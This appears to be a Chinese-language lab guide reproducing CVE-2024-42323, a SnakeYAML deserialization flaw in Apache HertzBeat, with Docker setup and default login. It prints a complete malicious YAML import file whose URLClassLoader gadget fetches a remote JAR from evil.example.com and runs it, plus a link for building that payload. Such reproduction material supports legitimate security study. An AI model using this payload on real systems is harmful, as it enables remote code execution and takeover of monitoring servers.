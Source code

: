 # Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞（CVE-2024-42323）

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## 环境搭建

执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`

## 漏洞复现

首先需要编译 <https://github.com/fei9747/yaml-payload/> 项目生成恶意 JAR 文件，并将其托管在 Web 服务器上，例如 `http://evil.example.com:4444/yaml-payload.jar`。

登录到控制面板后，导航到任意监控页面并找到导入按钮。该界面允许用户通过 YAML 文件导入监控配置：

![定位导入按钮](1.png)

我们可以构造一个包含以下内容的恶意 YAML 文件，当其被反序列化时会加载我们的恶意 JAR 文件：

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

当通过 Web 界面导入恶意 YAML 文件时，HertzBeat 会尝试反序列化其内容，从而触发远程类加载：

![导入恶意 YAML 文件](2.png)

如果攻击成功，payload 将在目标系统上执行。在本例中，我们可以通过检查容器中是否存在新创建的文件来验证执行结果：

![验证代码执行](3.png)
